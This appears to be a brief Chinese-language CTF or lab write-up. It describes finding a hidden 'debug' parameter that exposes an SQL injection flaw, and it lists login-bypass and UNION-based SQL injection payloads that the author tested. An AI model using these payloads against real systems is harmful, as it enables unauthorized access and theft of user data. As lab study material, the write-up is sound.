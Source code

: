 從原始碼或 burpsuite 可發現存在 hidden 變數 debug
將 debug 值設為 1 即可發現存在 sql injection 漏洞

試了幾種後發現
-- 和 ; 可以用
＃ 會出錯

' or 1=1 --
' or 1=1 ;
admin' --
UNION SELECT * FROM users --
